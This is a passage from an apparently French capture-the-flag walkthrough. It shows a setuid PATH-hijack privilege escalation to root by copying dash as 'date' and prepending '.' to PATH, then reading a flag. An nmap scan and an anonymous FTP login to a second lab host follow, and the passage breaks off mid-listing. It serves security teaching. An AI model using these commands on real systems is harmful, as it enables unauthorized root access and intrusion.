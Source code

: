 ```shellsession
crtstuff.c
--- snip ---
```

Le programme fait un setuid pour nous puis exécute `date` mais sans vérifier le path :

```shellsession
oscar@WebServer:/home/oscar$ cp /usr/bin/dash date
oscar@WebServer:/home/oscar$ export PATH=.:$PATH
oscar@WebServer:/home/oscar$ ./scripts/current-date
# id
uid=0(root) gid=0(root) groups=0(root),1001(oliver)
# cd /root
# ls
2_flag.txt
# cat 2_flag.txt
 __          __  _ _       _                  
 \ \        / / | | |     | |                 
  \ \  /\  / /__| | |   __| | ___  _ __   ___ 
   \ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \
    \  /\  /  __/ | | | (_| | (_) | | | |  __/
     \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___|
                                              
                                             
Well done! You second flag: 7afc7a60ac389f8d5c6f8f7d0ec645da
Now go to the Database server.
```

## NoDatabaseServer

Qu'est-ce qu'il nous reste ? `172.17.0.3` ?

```shellsession
# nmap -p- -T5 172.17.0.3
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 172.17.0.3
Host is up (0.000017s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:03 (Unknown)
```

Pas de serveur de base de données en écoute mais il y a ce FTP :

```shellsession
# ftp 172.17.0.3 
Connected to 172.17.0.3.
220 (vsFTPd 3.0.3)
Name (172.17.0.3:root): anonymous 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 27  2020 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 27  2020 ..
drwxr-xr-x    3 ftp      ftp          4096 Aug 27  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
```